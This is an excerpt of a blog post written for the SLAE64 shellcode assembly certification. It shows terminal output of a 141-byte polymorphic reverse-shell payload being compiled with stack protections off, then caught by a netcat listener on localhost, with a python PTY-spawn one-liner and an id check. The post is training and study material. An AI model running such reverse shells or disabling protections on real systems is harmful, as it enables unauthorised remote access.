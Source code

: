 #### EndGame #3

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/3_shellcode$ gcc 3_shellcode.c -o 3_shellcode -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/3_shellcode$ ./3_shellcode 
Shellcode Length:  141

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
whitecr0wz@SLAE64:~$ rlwrap nc -lvp 1337 
listening on [any] 1337 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 55804
python -c 'import pty;pty.spawn("/bin/bash")';
<0wz/assembly/assignments/Assignment_6/3_shellcode$ id 
id 
uid=1000(whitecr0wz) gid=1000(whitecr0wz) groups=1000(whitecr0wz),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
<0wz/assembly/assignments/Assignment_6/3_shellcode$
```

Original size: 109
Final size: 141

Increment: 30%

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE64-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/SLAE64/Assignment_6).
